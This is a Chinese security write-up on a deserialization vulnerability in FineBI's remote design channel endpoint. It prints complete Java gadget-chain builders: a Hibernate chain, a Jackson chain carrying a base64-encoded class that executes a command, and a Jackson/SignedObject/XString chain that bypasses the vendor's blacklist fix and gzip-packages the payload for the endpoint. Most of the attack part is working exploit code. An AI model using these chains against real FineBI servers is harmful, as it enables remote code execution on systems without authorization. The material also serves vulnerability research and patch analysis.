

Finebi 反序列化漏洞分析

- - -

# Finebi 反序列化漏洞分析

## 反序列化

/webroot/decision/remote/design/channel 处存在发序列化漏洞  
这个接口接收 post 传输的数据，会先经过 GZIPInputStream 解压缩 GZIP 格式数据  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124161413-8f4949ca-ba90-1.png)  
然后对经过解压缩后的数据利用 CustomObjectInputStream 进行包装，再调用 readObject() 方法实现反序列化  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124161736-081d6a84-ba91-1.png)  
CustomObjectInputStream 继承 ObjectInputStream，其构造方法调用父类的构造方法，和正常反序列化差不多  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124183747-9da75d5e-baa4-1.png)  
所以我们构造的序列化数据，要先经过 gzip 压缩，再向漏洞接口发送  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124184033-008e478e-baa5-1.png)  
如何构造序列化数据呢，可以利用 cb 链或者 hibernate 链，需要注意的是这里的包名不是正常 maven 下载的依赖的包名，所以有些 payload 构造也会有所差别，构造 hibernate 链  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124184545-ba4d5eb2-baa5-1.png)

```plain
import com.fr.third.org.hibernate.engine.spi.TypedValue;
import com.fr.third.org.hibernate.tuple.component.AbstractComponentTuplizer;
import com.fr.third.org.hibernate.type.Type;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;

import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;

public class Hibernate {
    public static byte[] getPayload(byte[] bytes) throws Exception {
        Class<?> componentTypeClass             = Class.forName("com.fr.third.org.hibernate.type.ComponentType");
        Class<?> pojoComponentTuplizerClass     = Class.forName("com.fr.third.org.hibernate.tuple.component.PojoComponentTuplizer");
        Class<?> abstractComponentTuplizerClass = Class.forName("com.fr.third.org.hibernate.tuple.component.AbstractComponentTuplizer");


        TemplatesImpl tmpl   = utils.getTeml(bytes);
        Method method = TemplatesImpl.class.getDeclaredMethod("getOutputProperties");

        Object getter;
        try {
            Class<?>       getterImpl  = Class.forName("com.fr.third.org.hibernate.property.access.spi.GetterMethodImpl");
            Constructor<?> constructor = getterImpl.getDeclaredConstructors()[0];
            constructor.setAccessible(true);
            getter = constructor.newInstance(null, null, method);
        } catch (Exception ignored) {
            Class<?>       basicGetter = Class.forName("com.fr.third.org.hibernate.property.BasicPropertyAccessor$BasicGetter");
            Constructor<?> constructor = basicGetter.getDeclaredConstructor(Class.class, Method.class, String.class);
            constructor.setAccessible(true);
            getter = constructor.newInstance(tmpl.getClass(), method, "outputProperties");
        }

        Object getters = Array.newInstance(getter.getClass(), 1);
        Array.set(getters, 0, getter);

        AbstractComponentTuplizer tuplizer = (AbstractComponentTuplizer) utils.createInstanceUnsafely(pojoComponentTuplizerClass);

        Field field = abstractComponentTuplizerClass.getDeclaredField("getters");
        field.setAccessible(true);
        field.set(tuplizer, getters);

        Object type = utils.createInstanceUnsafely(componentTypeClass);

        utils.setFieldValue(type,"componentTuplizer",tuplizer);

        utils.setFieldValue(type,"propertySpan",1);

        utils.setFieldValue(type,"propertyTypes",new Type[]{(Type) type});

        TypedValue typedValue = new TypedValue((Type) type, null);

        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(typedValue, "123");

        utils.setFieldValue(typedValue,"value", tmpl);

        byte[] ser = utils.serialize(hashMap);
        byte[] payload = utils.GzipCompress(ser);
        return payload;

    }

}
```

## 反序列化绕过

之后官方对其进行了修复，修复方式是增加了反序列化黑名单，禁止了一些类的反序列化，包括了 cb、hibernate 以及一些反序列化中常用的类  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124190345-3e4f4638-baa8-1.png)  
但是这里面没有禁止 jackson 相关的类，可以利用 jackson 来构造反序列化链

```plain
import util.utils;
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;

import javax.management.BadAttributeValueExpException;
import java.util.Base64;

public class jackson {
    public static void main(String[] args) throws Exception {
        String calc = "yv66vgAAADQANgoACQAlCgAmACcIACgKACYAKQcAKgcAKwoABgAsBwAtBwAuAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAZMdGVzdDsBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhkb2N1bWVudAEALUxjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NOwEACGhhbmRsZXJzAQBCW0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAKRXhjZXB0aW9ucwcALwEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAIPGNsaW5pdD4BAAFlAQAVTGphdmEvaW8vSU9FeGNlcHRpb247AQANU3RhY2tNYXBUYWJsZQcAKgEAClNvdXJjZUZpbGUBAAl0ZXN0LmphdmEMAAoACwcAMAwAMQAyAQAEY2FsYwwAMwA0AQATamF2YS9pby9JT0V4Y2VwdGlvbgEAGmphdmEvbGFuZy9SdW50aW1lRXhjZXB0aW9uDAAKADUBAAR0ZXN0AQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsBABgoTGphdmEvbGFuZy9UaHJvd2FibGU7KVYAIQAIAAkAAAAAAAQAAQAKAAsAAQAMAAAALwABAAEAAAAFKrcAAbEAAAACAA0AAAAGAAEAAAAJAA4AAAAMAAEAAAAFAA8AEAAAAAEAEQASAAIADAAAAD8AAAADAAAAAbEAAAACAA0AAAAGAAEAAAAWAA4AAAAgAAMAAAABAA8AEAAAAAAAAQATABQAAQAAAAEAFQAWAAIAFwAAAAQAAQAYAAEAEQAZAAIADAAAAEkAAAAEAAAAAbEAAAACAA0AAAAGAAEAAAAbAA4AAAAqAAQAAAABAA8AEAAAAAAAAQATABQAAQAAAAEAGgAbAAIAAAABABwAHQADABcAAAAEAAEAGAAIAB4ACwABAAwAAABmAAMAAQAAABe4AAISA7YABFenAA1LuwAGWSq3AAe/sQABAAAACQAMAAUAAwANAAAAFgAFAAAADQAJABAADAAOAA0ADwAWABEADgAAAAwAAQANAAkAHwAgAAAAIQAAAAcAAkwHACIJAAEAIwAAAAIAJA==";
        TemplatesImpl t = utils.getTeml(Base64.getDecoder().decode(calc));
        CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();
        POJONode node = new POJONode(t);
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        utils.setFieldValue(val,"val",node);

        byte[] ser = utils.serialize(val);
        String b = Base64.getEncoder().encodeToString(ser);
        System.out.println(b);
        utils.unserialize(ser);
    }
}
```

这是最普通的 jackson 反序列化利用链的构造，在这个代码中使用到的 BadAttributeValueExpException 和 TemplatesImpl 是在黑名单里的，我们需要找到能够替换这 2 个类的类  
BadAttributeValueExpException 反序列化时会触发 toSting 方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124191459-cfd83e74-baa9-1.png)  
这里是用来触发node的toSting方法，我们可以用XString#equals替换BadAttributeValueExpException来触发toSting方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124191606-f7e44110-baa9-1.png)  
spring环境下可以利用HotSwappableTargetSource#equals来触发XString的equals方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124191637-0a7e5d60-baaa-1.png)  
用到 TemplatesImpl 是因为 TemplatesImpl 对象的 getOutputProperties 方法能够加载任意类字节码，从而造成代码执行，因为 jackson 反序列化能够调用类的无参 getter 方法，我们需要找到一个不在黑名单中的类，并且其无参 getter 方法存在漏洞  
SignedObject 刚好是一个满足的类，其 getObject 方法中实现了反序列化，我们就可以利用二次反序列化来进行攻击  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124192238-e18f7bc2-baaa-1.png)  
利用 XString、HotSwappableTargetSource、SignedObject 进行绕过

```plain
import com.fr.third.fasterxml.jackson.databind.node.POJONode;
import com.fr.third.springframework.aop.target.HotSwappableTargetSource;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;

import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.security.SignedObject;
import java.util.HashMap;

public class JacksonSignedObject {

    public static byte[] getPayload(byte[] bytes) throws Exception {
        TemplatesImpl t = utils.getTeml(bytes);
        try {
            CtClass ctClass = ClassPool.getDefault().get("com.fr.third.fasterxml.jackson.databind.node.BaseJsonNode");
            CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
            ctClass.removeMethod(writeReplace);
            ctClass.toClass();
        }
        catch (Exception e){

        }

        POJONode node = new POJONode(utils.makeTemplatesImplAopProxy(t));
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        utils.setFieldValue(val,"val",node);


        SignedObject s = utils.makeSignedObject(val);

        POJONode node2 = new POJONode(s);


        HotSwappableTargetSource h1 = new HotSwappableTargetSource(node2);
        HotSwappableTargetSource h2 = new HotSwappableTargetSource(new XString("xxx"));

        HashMap<Object, Object> hashmap = new HashMap<>();
        utils.setFieldValue(hashmap, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, h1, h1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, h2, h2, null));
        utils.setFieldValue(hashmap, "table", tbl);


        byte[] ser = utils.serialize(hashmap);
        byte[] payload = utils.GzipCompress(ser);

        return payload;
    }


}
```

当然，之后这些类也无法使用了

## 参考链接

[https://xz.aliyun.com/t/12509](https://xz.aliyun.com/t/12509)  
[https://xz.aliyun.com/t/12846#toc-1](https://xz.aliyun.com/t/12846#toc-1)  
[https://github.com/yecp181/Frchannel](https://github.com/yecp181/Frchannel)
